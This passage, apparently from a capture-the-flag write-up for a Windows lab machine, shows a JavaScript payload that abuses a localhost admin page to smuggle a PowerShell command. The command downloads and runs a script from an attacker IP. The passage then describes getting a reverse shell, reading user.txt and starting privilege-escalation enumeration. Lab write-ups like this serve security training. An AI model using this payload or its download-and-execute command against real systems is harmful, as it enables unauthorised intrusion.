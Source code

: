 ```
<script>
function hello() {
  var http=new XMLHttpRequest();
  var url='http://localhost/admin/backdoorchecker.php';
  var params="cmd=dir | powershell /c iex (new-object net.webclient).downloadstring('http://10.10.15.23/nmap.txt')";
  http.open('POST',url,true);
  http.setRequestHeader('Content-type','application/x-www-form-urlencoded');
  http.send(params);
}
hello();
</script>
```

Let's minify the JavaScript while we are at it.


{% include image.html image_alt="7936b333.png" image_src="/346430ba-0b8e-4f9e-b28d-b6dbeafad790/7936b333.png" %}


Bombs away. Moments later, see who came knocking on my door, with PowerShell no less. :wink:


{% include image.html image_alt="6ddfe67d.png" image_src="/346430ba-0b8e-4f9e-b28d-b6dbeafad790/6ddfe67d.png" %}


## Low-Privilege Shell

With that in mind, we can probably execute some kind of reverse [shell](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3).


{% include image.html image_alt="d84ca684.png" image_src="/346430ba-0b8e-4f9e-b28d-b6dbeafad790/d84ca684.png" %}


Bam! The file `user.txt` is at Cortin's desktop.


{% include image.html image_alt="f0c5e13d.png" image_src="/346430ba-0b8e-4f9e-b28d-b6dbeafad790/f0c5e13d.png" %}


## Privilege Escalation

During enumeration of Cortin's account, I notice a weird service `bankapp`, listening at `910/tcp`. The executable path is `C:\bankv2.exe`. And since the port wasn't discovered during our port scan, it can only mean that this service is listening through `localhost` or the loopback interface.


{% include image.html image_alt="a42df46a.png" image_src="/346430ba-0b8e-4f9e-b28d-b6dbeafad790/a42df46a.png" %}



{% include image.html image_alt="cf2c3444.png" image_src="/346430ba-0b8e-4f9e-b28d-b6dbeafad790/cf2c3444.png" %}
